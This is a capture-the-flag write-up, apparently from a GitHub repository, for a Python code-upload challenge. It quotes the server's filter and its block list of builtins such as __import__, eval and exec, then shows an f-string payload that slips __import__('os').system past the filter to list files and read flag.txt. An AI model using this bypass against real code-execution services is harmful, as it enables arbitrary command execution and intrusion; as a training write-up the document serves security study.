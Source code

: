 # Challenge:

Code đi bạn ơi ;)

FLAG Format: EHC{XXX}

# Solution:

After download and read the challenge file (The only file `run.py`), I understand that this website allow you to upload file and after upload complete, the server will auto execute the code:
```
if tested[0]:
        res = ''
        try:
            ps = subprocess.run(['python', fname], timeout=5,
                                capture_output=True, text=True)
            res = ps.stdout
        except:
            res = 'code timout'
        return render_template('submit.html', code=code_to_test.split('\n'), text=res.strip().split('\n'))
    else:
        return render_template('submit.html', code=code_to_test.split('\n'), text=[tested[1]])
```
But before the code can be executed, the server have filtering our code:
```
tested = test_code(code_to_test)  #Line 32

def test_for_invalid(code):
    if len(code) > 1000:
        return True
    try:
        parse(code)
    except:
        return True
    return False

blocked = ["__import__", "globals", "locals", "__builtins__", "dir", "eval", "exec",
           "breakpoint", "callable", "classmethod", "compile", "staticmethod", "sys",
           "__importlib__", "delattr", "getattr", "setattr", "hasattr", "sys", "open"]

blocked_regex = re.compile(fr'({"|".join(blocked)})(?![a-zA-Z0-9_])')


def test_for_disallowed(code):
    code = clean_comments_and_strings(code)
    return blocked_regex.search(code) is not None


def test_code(code):
    if test_for_non_ascii(code):
        return (False, 'found a non-ascii character')
    elif test_for_invalid(code):
        return (False, 'code too long or not parseable')
    elif test_for_imports(code):
        return (False, 'found an import')
    elif test_for_disallowed(code):
        return (False, 'found an invalid keyword')
    return (True, '')
```

See the filter we know that we only can upload code with ascii, under 1000 words and not contain the word in `blocked`. But the blocked list can block all things??

After testing some function, i realize that if the blocked word in s string, it not block any more. So a have an idea of using a very cool function of python. The `f-string`.

That idea lead me to this: `f'{__import__('os')}'. Which can import the mighty os function and i can do many things from now. Start this payload to see the current file:
```
print(f'{__import__("os").system("ls -la")}')
```
![1st](https://github.com/Katsumi1012/CTF/assets/90083485/e85e4b79-e915-4f1f-912e-10d60292246e)

Notthing seem interesting here so cd out side to see

![1st](https://github.com/Katsumi1012/CTF/assets/90083485/63d7b2e1-6308-42e4-8128-6a1d88a94aa0)

Oh we saw file call `flag.txt` lets get in there and see the flag 🚩

![1st](https://github.com/Katsumi1012/CTF/assets/90083485/e3cb7092-ee3d-4915-80bc-5f75cd4fe0d0)


# ENJOY 🤡

